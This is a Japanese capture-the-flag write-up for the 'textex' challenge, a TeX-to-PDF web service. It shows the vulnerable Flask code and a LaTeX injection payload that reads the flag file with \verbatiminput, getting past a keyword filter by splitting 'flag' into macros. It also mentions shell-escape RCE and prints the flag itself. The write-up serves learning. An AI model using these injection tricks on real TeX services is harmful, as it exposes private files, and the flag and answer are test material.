 # textex

## 問題文
texをpdfにするサービスを作りました。  
texで攻撃することはできますか？  
[https://textex.quals.beginners.seccon.jp](https://textex.quals.beginners.seccon.jp/)  
[textex.tar.gz](files/textex.tar.gz) 31fd2c7d44bf76b937e3d141032ac62b5e301dee  

## 難易度
**easy**  

## 作問にあたって
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)に最近ペイロードが追加されていたため問題にしました。  
コピペだけでは解けないようにしたつもりです。  
ダミーフラグに起因する問題サーバとの差異が見られましたが、原因の特定が容易であるため競技の範囲内と判断しました(惜しいところまでいった方はごめんなさい)。  

## 解法
texをpdfに変換するサービスが動いているようだ。  
![site.png](images/site.png)  
配布されたファイルからflagファイルにフラグが書かれているようだ。  
ソースコードの主要な関数は以下のようになっている。  
```python
~~~
def tex2pdf(tex_code) -> str:
    # Generate random file name.
    filename = "".join([random.choice(string.digits + string.ascii_lowercase + string.ascii_uppercase) for i in range(2**5)])
    # Create a working directory.
    os.makedirs(f"tex_box/{filename}", exist_ok=True)
    # .tex -> .pdf
    try:
        # No flag !!!!
        if "flag" in tex_code.lower():
            tex_code = ""
        # Write tex code to file.
        with open(f"tex_box/{filename}/{filename}.tex", mode="w") as f:
            f.write(tex_code)
        # Create pdf from tex.
        subprocess.run(["pdflatex", "-output-directory", f"tex_box/{filename}", f"tex_box/{filename}/{filename}.tex"], timeout=0.5)
    except:
        pass
    if not os.path.isfile(f"tex_box/{filename}/{filename}.pdf"):
        # OMG error ;(
        shutil.copy("tex_box/error.pdf", f"tex_box/{filename}/{filename}.pdf")
    return f"{filename}"

@app.route("/pdf", methods=["POST"])
def pdf():
    # tex to pdf.
    filename = tex2pdf(request.form.get("tex_code"))
    # Here's your pdf.
    with open(f"tex_box/{filename}/{filename}.pdf", "rb") as f:
        pdf = io.BytesIO(f.read())
    shutil.rmtree(f"tex_box/{filename}/")
    return send_file(pdf, mimetype="application/pdf")
~~~
```
`pdflatex`に入力したLaTeXコードを渡しているようだ。  
壊れたtexを送信するとエラーpdfが返ってくるので、悪用できそうにない(本当はいろいろできるかもしれない)。  
ここでLaTeXにはファイルを読み取る機能があることを思い出す。  
ペイロードを探すと[LaTex Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)が見つかる。  
これで任意のファイルが読みだせそうだ(`-shell-escape`がついていないので`\write18`のRCEは難しい)。  
文字列`flag`が消されるので、バイパス手法を考える。  
LaTeXはマクロ定義が可能なので、文字列`flag`を分割してやればよい。  
以下のtexでファイルを読み出す。  
```tex
\documentclass{article}
\usepackage{verbatim}
\begin{document}

\def \fl {fl}
\def \ag {ag}

\verbatiminput{\fl\ag}

\end{document}
```
送信するとflagが書き込まれたpdfが返ってくる。  
ちなみにLeTexファイルとして読み込む`\input`を用いる場合、flag形式が`ctf4b{[\x20-\x7e]+}`なので特殊文字(`_`)でエラーが発生する。  
これはローカルではフラグがダミーであるため発生しなかったかもしれないが、`\catcode`などを用いて回避する必要がある。  

## ctf4b{15_73x_pr0n0unc3d_ch0u?}